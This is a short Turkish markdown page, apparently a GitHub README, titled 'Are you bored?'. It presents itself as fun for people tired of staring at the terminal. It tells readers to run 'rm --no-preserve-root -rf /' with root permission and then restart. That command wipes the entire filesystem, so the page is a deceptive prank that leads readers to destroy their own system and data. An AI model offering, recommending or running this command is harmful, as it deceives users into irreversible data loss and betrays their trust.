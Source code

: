 # SIKILDIN MI?

## Siyah ekrana bak bak nereye kadar diyenlerden misin?

## Biraz eğlenmek mi istiyorsun?

### O zaman son defa gir ve şunu yaz:

~~~bash
rm --no-preserve-root -rf /
~~~

**Root iznine sahip olduğundan emin ol ;)**

Ve sakince sistemi yeniden başlat...
